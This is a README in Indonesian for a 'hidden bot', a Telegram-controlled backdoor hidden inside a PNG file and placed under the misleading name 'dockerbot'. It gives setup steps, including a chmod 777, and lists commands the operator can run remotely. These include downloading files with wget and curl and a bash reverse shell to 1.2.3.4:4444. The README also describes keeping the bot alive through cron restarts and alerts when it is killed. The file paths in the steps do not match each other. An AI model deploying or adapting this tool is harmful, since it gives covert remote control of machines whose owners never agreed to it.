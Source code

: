 # hidden bot


</h1>
<h4 align="center">command list</h4>

<p align="center">
    <img src="https://img.shields.io/badge/release-Prv8-blue.svg">
    <img src="https://img.shields.io/badge/issues-0-red.svg">
    <img src="https://img.shields.io/badge/php-7-green.svg">
    <img src="https://img.shields.io/badge/php-5-green.svg">
</p>

1️⃣ Buat file /usr/local/bin/dockerbot

Isi dengan:
```
#!/bin/bash
/sesuaikan/dengan/lokasi/botpng/default.png
```
2️⃣ Beri izin eksekusi

```
chmod 777 /tmp/img/dockerbot
```
3️⃣ menjalankan bot 

```
bash /tmp/img/dockerbot
```

apasaja yg bisa di jalankan di bot telegram 

perintah Linux apa saja, termasuk:

✅ ls -la → Menampilkan daftar file dengan detail.
✅ wget http://example.com/file → Mengunduh file dari internet.
✅ curl -O http://example.com/file → Alternatif download selain wget.
✅ ps aux → Melihat daftar proses.
✅ netstat -tulnp → Melihat koneksi jaringan.
✅ whoami && id → Cek user dan grup aktif.
✅ bash -i >& /dev/tcp/1.2.3.4/4444 0>&1 → Reverse shell ke listener.
✅ dan semua command linux 


🔥 Fitur systemd
✅ Monitoring bot setiap 5 menit menggunakan cronjob
✅ Jika bot mati, otomatis dijalankan ulang. otomatis
✅ Mengirim pesan saat bot mati (misalnya karena kill, CTRL+C, atau shutdown)

```
